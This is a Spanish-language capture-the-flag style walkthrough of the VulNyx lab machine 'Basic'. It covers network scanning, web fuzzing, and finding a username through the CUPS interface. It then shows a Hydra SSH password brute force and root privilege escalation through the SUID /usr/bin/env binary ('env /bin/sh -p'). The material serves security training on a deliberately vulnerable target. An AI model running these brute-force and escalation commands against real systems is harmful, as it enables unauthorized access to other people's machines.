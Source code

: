 # Ejercicio Práctico Maquina Basic – Hacking Fuerza Bruta + Escalada de Privilegios Binarios SUID

Maquinas que vamos a utilizar Kali Linux y Basic [https://vulnyx.com/#basic](https://vulnyx.com/#basic)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2034.png)

```bash
ping -c 1 10.0.3.22 
```

![image.png](./imagenes/image%2035.png)

Es una maquina Linux.

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.22
```

![image.png](./imagenes/image%2036.png)

`22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)`

`80/tcp  open  http    syn-ack ttl 64 Apache httpd 2.4.56 ((Debian))`

`631/tcp open  ipp     syn-ack ttl 64 CUPS 2.3` **→ Servicio de impresoras en Linux**

- Miramos en el navegador web el puerto 80
    
    ![image.png](./imagenes/image%2037.png)
    

- Probamos a hacer fuzzing web con distintas herramientas.
    
    ```bash
    gobuster dir -u [http://10.0.3.22](./imagenes/http://10.0.3.22/) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2038.png)
    
    ```bash
    dirb [http://10.0.3.22](./imagenes/http://10.0.3.22) 
    ```
    
    ![image.png](./imagenes/image%2039.png)
    

```bash
dirsearch -u http://10.0.3.22/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

![image.png](./imagenes/image%2040.png)

**No encontramos nada.**

- Enumeramos el **puerto 631**. Utilizando el navegador web,
    
    `http://10.0.3.22:631/`
    
    ![image.png](./imagenes/image%2041.png)
    

Miramos si encontramos algún nombre de usuario entre las pestañas.

![image.png](./imagenes/image%2042.png)

Hay lo tenemos un usuario llamado “**dimitri**”.

- Hemos visto en el escaneo de nmap que tenemos un puerto SSH.
- Vamos a hacerle un ataque de fuerza bruta con Hydra aprovechando que tenemos un posible nombre de usuario.
    
    ```bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.22 
    ```
    
    ![image.png](./imagenes/image%2043.png)
    
- Nos conectamos al SSH con las credenciales obtenidas.
    
    ```bash
    ssh dimitri@10.0.3.22  
    ```
    
    ![image.png](./imagenes/image%2044.png)
    
- Hacemos escalada de privilegios
    - Probamos con la enumeración de binarios SUID
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2045.png)
        

- Utilizamos la web de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ayudarnos a identificar el binario vulnerable. En este caso `/usr/bin/env`.
    
    ![image.png](./imagenes/image%2046.png)
    
    `env /bin/sh -p`
    
    `whoami`
    
    ![image.png](./imagenes/image%2047.png)